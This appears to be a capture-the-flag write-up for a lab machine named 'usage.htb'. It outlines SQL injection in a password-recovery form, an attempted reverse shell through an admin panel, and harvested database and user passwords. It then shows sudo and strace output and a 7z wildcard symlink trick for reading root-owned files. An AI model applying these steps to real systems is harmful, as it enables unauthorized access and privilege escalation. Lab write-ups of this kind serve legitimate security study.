

User Flag
-----

1. Scan with nmap
2. Find port 80
3. Enter web page
4. Find multiple login pages and inputs
5. Sql injection in recory password
6. Obtain user + hash for admin panel
7. Login to admin panel
8. Tried to inject a reverse shell under `http://admin.usage.htb/admin/auth/setting`

```shell
/var/www/html/project_admin/config
/home/dash/.config/composer/vendor/laravel/prompts/playground/password.php:$password = password
/var/www/html/project_admin/.env
```

```shell
DB_CONNECTION=mysql                                                                
DB_HOST=127.0.0.1                                          
DB_PORT=3306                                                       
DB_DATABASE=usage_blog                                                 
DB_USERNAME=staff                                                      
DB_PASSWORD=s3cr3t_c0d3d_1uth
```

```shell
## Found password for xander in
cat .monitrc
3nc0d3d_pa$$w0rd
```

```bash
xander@usage:~$ sudo -l
Matching Defaults entries for xander on usage:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
```

```bash
strace /usr/bin/usage_management
execve("/usr/bin/usage_management", ["/usr/bin/usage_management"], 0x7ffe65c184c0 /* 33 vars */) = 0
brk(NULL)                               = 0x559e0cf51000
arch_prctl(0x3001 /* ARCH_??? */, 0x7fffa5cfe0a0) = -1 EINVAL (Invalid argument)
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7fa95ed2b000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
newfstatat(3, "", {st_mode=S_IFREG|0644, st_size=26735, ...}, AT_EMPTY_PATH) = 0
mmap(NULL, 26735, PROT_READ, MAP_PRIVATE, 3, 0) = 0x7fa95ed24000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\3\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0P\237\2\0\0\0\0\0"..., 832) = 832
pread64(3, "\6\0\0\0\4\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0"..., 784, 64) = 784
pread64(3, "\4\0\0\0 \0\0\0\5\0\0\0GNU\0\2\0\0\300\4\0\0\0\3\0\0\0\0\0\0\0"..., 48, 848) = 48
pread64(3, "\4\0\0\0\24\0\0\0\3\0\0\0GNU\0\302\211\332Pq\2439\235\350\223\322\257\201\326\243\f"..., 68, 896) = 68
newfstatat(3, "", {st_mode=S_IFREG|0755, st_size=2220400, ...}, AT_EMPTY_PATH) = 0
pread64(3, "\6\0\0\0\4\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0"..., 784, 64) = 784
mmap(NULL, 2264656, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x7fa95eafb000
mprotect(0x7fa95eb23000, 2023424, PROT_NONE) = 0
mmap(0x7fa95eb23000, 1658880, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x28000) = 0x7fa95eb23000
mmap(0x7fa95ecb8000, 360448, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1bd000) = 0x7fa95ecb8000
mmap(0x7fa95ed11000, 24576, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x215000) = 0x7fa95ed11000
mmap(0x7fa95ed17000, 52816, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x7fa95ed17000
close(3)                                = 0
mmap(NULL, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7fa95eaf8000
arch_prctl(ARCH_SET_FS, 0x7fa95eaf8740) = 0
set_tid_address(0x7fa95eaf8a10)         = 100299
set_robust_list(0x7fa95eaf8a20, 24)     = 0
rseq(0x7fa95eaf90e0, 0x20, 0, 0x53053053) = 0
mprotect(0x7fa95ed11000, 16384, PROT_READ) = 0
mprotect(0x559e0c86b000, 4096, PROT_READ) = 0
mprotect(0x7fa95ed65000, 8192, PROT_READ) = 0
prlimit64(0, RLIMIT_STACK, NULL, {rlim_cur=8192*1024, rlim_max=RLIM64_INFINITY}) = 0
munmap(0x7fa95ed24000, 26735)           = 0
newfstatat(1, "", {st_mode=S_IFCHR|0620, st_rdev=makedev(0x88, 0x1), ...}, AT_EMPTY_PATH) = 0
getrandom("\x03\xe4\x95\x2b\x6d\xd2\xa0\xbc", 8, GRND_NONBLOCK) = 8
brk(NULL)                               = 0x559e0cf51000
brk(0x559e0cf72000)                     = 0x559e0cf72000
write(1, "Choose an option:\n", 18Choose an option:
)     = 18
write(1, "1. Project Backup\n", 181. Project Backup
)     = 18
write(1, "2. Backup MySQL data\n", 212. Backup MySQL data
)  = 21
write(1, "3. Reset admin password\n", 243. Reset admin password
) = 24
newfstatat(0, "", {st_mode=S_IFCHR|0620, st_rdev=makedev(0x88, 0x1), ...}, AT_EMPTY_PATH) = 0
write(1, "Enter your choice (1/2/3): ", 27Enter your choice (1/2/3): ) = 27
read(0,
```

```
cd /path/to/7z/acting/folder
touch @root.txt
ln -s /file/you/want/to/read root.txt
```



## Links

- https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks